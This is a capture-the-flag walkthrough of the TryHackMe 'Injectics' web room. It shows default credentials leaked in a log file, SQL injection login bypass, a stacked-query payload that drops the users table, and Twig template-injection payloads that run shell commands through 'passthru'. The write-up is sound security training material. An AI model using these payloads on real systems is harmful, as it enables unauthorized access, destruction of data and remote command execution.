

> [!info]
> - [Injectics](https://tryhackme.com/room/injectics)
> - Difficulty: medium
> - Platform: web
> 
> Can you utilise your web pen-testing skills to safeguard the event from any injection attack?
>
> Answer the questions below:
> 1. What is the flag value after logging into the admin panel?
> 2. What is the content of the hidden text file in the flags folder?


This room acts as a final challenge for the advanced injection attacks module. Vulnerabilities explored were:
- Information disclosure
- SQL injections
- Server-side template injection

## Information gathering

I didn't go for the port scanning because it was evident that our focus was to find injection points in the web application.  

First, I checked the home page source code. It has interesting comments:

```html
<!-- Website developed by John Tim - dev@injectics.thm-->

<!-- Mails are stored in mail.log file-->
```

Next, I explored the website. The only working link on the home page is to the `/login.php` page which also has "Login as administrator" link to `/adminLogin007.php`. Both are loading `script.js` which handles input validation:

```js
...
const invalidKeywords = ['or', 'and', 'union', 'select', '"', "'"];
for (let keyword of invalidKeywords) {
	if (username.includes(keyword)) {
		alert('Invalid keywords detected');
	   return false;
	}
}
...
```

The script checks for SQL keywords, thus, it seems like a good place to try SQLi.

Before doing that, I opened `/mail.log` file mentioned in the comments:

```
From: dev@injectics.thm
To: superadmin@injectics.thm
Subject: Update before holidays

Hey,

Before heading off on holidays, I wanted to update you on the latest changes to the website. I have implemented several enhancements and enabled a special service called Injectics. This service continuously monitors the database to ensure it remains in a stable state.

To add an extra layer of safety, I have configured the service to automatically insert default credentials into the `users` table if it is ever deleted or becomes corrupted. This ensures that we always have a way to access the system and perform necessary maintenance. I have scheduled the service to run every minute.

Here are the default credentials that will be added:

| Email                     | Password 	              |
|---------------------------|-------------------------|
| superadmin@injectics.thm  | superSecurePasswd101    |
| dev@injectics.thm         | devPasswd123            |

Please let me know if there are any further updates or changes needed.

Best regards,
Dev Team

dev@injectics.thm

```

Three important pieces here:
- There are two known users.
- Their info is stored in the table `users`.
- If something happens to the table, it gets recreated with the default credentials.

Just to be sure, I tried logging in with these credentials, but it wasn't successful. 

## Bypassing authentication: SQLi

I captured requests during login attempts with the Burp Suite. I copied them to files and used [sqlmap](https://sqlmap.org/) to find vulnerabilities. It could not detect anything for the administrator login page but successfully identified injection point for the normal login. 

```
$ sqlmap -r functions.req --level 4
...
sqlmap identified the following injection point(s) with a total of 1758 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 RLIKE time-based blind
    Payload: username=superadmin@injectics.thm' RLIKE SLEEP(5)-- MGux&password=&function=login
---
```

With the suggested payload, I logged into the dashboard.

> [!note]
> It's possible to achieve the same result with a simpler payload: `' || 1=1;-- -`


## Resetting users: SQLi

The dashboard provides the ability to edit the leader board. A`POST` request to `/edit_leaderboard.php` saves new data. Here I again used sqlmap to find vulnerable fields:

```
$ sqlmap -r edit.req --level 4
...
---
Parameter: gold (POST)
    Type: boolean-based blind
    Title: MySQL boolean-based blind - Parameter replace (MAKE_SET)
    Payload: rank=1&country=&gold=MAKE_SET(1637=1637,3031)&silver=21&bronze=12345
---
...

```

I did a lot of poking around trying to exploit it. Breakthrough moment came with a very simple payload `42;` which updated medals for all countries instead of the selected one. 

So, I was ready to reset users by dropping their table using payload `42; drop table users;`:


```
POST /edit_leaderboard.php HTTP/1.1
Host: MACHINE_IP
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://10.10.170.160/edit_leaderboard.php?rank=1&country=USA
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Origin: http://MACHINE_IP
Connection: keep-alive
Cookie: PHPSESSID=4jvgqrd1bqc47rqrv7m47id7q1
Upgrade-Insecure-Requests: 1
Priority: u=0, i

rank=6&country=&gold=0&silver=0&bronze=42; drop table users;

--- 

HTTP/1.1 200 OK
Date: Mon, 10 Feb 2_025 19:45:53 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Vary: Accept-Encoding
Content-Length: 127
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Seems like database or some important table is deleted. InjecticsService is running to restore it. Please wait for 1-2 minutes.
```

> [!note]
> As you noticed, both attempts at using sqlmap only complicated things. Try simple stupid things first!

## Getting the first flag
After the user table was restored, I logged in as an administrator using credentials found in `mail.log`. Here, in the dashboard, we can see our first flag: `THM{REDACTED}`.


## Reading hidden flag file: RCE via SSTI

Next flag should be in the flags directory. If you navigate to `/flags` while logged in as an administrator, you receive access denied error; thus, we need to find another way to access this directory.

There is a "Profile" button which leads to `/update_profile.php` page with three editable fields: email, first name, last name. Editing first name changes to the dashboard greeting.

By then, I was pretty confident that we had to find a SSTI vulnerability because (a) it was part of the module (b) it's simple enough to allow RCE. My first payload was `{{7*'7'}}` to confirm that it was Twig templating engine.

Exploitation proved difficult for me. While trying [different payloads](https://swisskyrepo.github.io/PayloadsAllTheThings/Server%20Side%20Template%20Injection/PHP/#twig) I quickly understood that we're in the sandbox. So I tried exploiting [CVE-2022-23614](https://nvd.nist.gov/vuln/detail/CVE-2022-23614) vulnerability that allows bypassing sandbox mode via `sort` function. I was on the right track but ended up looking for a hint, because functions `exec` and `system` did not work. [There I learned](https://jaxafed.github.io/posts/tryhackme-injectics/) about another useful function: `passthru`.


First, a payload to list files in the directory `flags`:

```
{{['ls flags',""]|sort('passthru')|join}}
```

And finally, to get the flag:

```
{{['cat flags/REDACTED.txt',""]|sort('passthru')|join}}
```



